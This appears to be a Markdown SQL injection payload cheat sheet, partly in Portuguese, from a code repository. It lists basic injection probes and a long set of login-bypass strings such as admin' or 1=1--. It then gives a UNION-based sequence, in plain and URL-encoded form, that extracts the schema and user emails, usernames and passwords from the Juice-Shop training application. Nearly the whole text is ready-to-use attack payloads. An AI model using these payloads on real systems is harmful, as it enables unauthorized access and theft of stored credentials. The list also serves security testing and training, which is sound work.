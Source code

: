 # SQL Inject Basic Payloads
```
'
' --
1'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --

1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

Comentarios:

#
/*
-- -
;%00
`
```
# SQL Inject Bypass de Auth
```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
admin' or 1=1
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```
# SQL Inject Extract Schema Database Juice-Shop

')

')) --

')) order by 9 -- 

')) union all select 1,2,3,4,5,6,7,8,9 -- 

')) union all select 1,2,3,sql,5,6,7,8,9 from sqlite_master -- 

')) union all select 1,email,username,4,password,6,7,8,9 from Users -- 

Link

https://www.urlencoder.org

```
')

'))%20--%20

'))%20order%20by%209%20--%20

'))%20union%20all%20select%201,2,3,4,5,6,7,8,9%20--%20

'))%20union%20all%20select%201,2,3,sql,5,6,7,8,9%20from%20sqlite_master%20--%20

'))%20union%20all%20select%201,email,username,4,password,6,7,8,9%20from%20Users%20--%20
```
## Links

https://www.w3schools.com/sql/sql_injection.asp

https://github.com/gui1535/sql-injection-list

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

https://dev.mysql.com/doc

https://www.sqlite.org/faq.html

